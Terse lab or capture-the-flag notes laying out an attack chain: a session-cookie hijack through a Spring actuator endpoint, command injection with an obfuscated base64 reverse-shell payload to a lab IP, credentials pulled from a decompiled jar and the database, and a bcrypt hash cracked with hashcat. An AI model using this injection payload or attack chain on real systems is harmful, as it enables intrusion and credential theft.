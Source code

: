 /actuator/sessions hijack cookie 

/executessh 

start listner

;echo${IFS}"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwOS8xMjM0IDA+JjE="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;

wget cloudhosting.jar 

jd-gui cloud.jar and find postgresql password 

go to cloudhosting db and grep admin hash

hashcat -m 3200 hash.txt rockyou

password manchesterunited

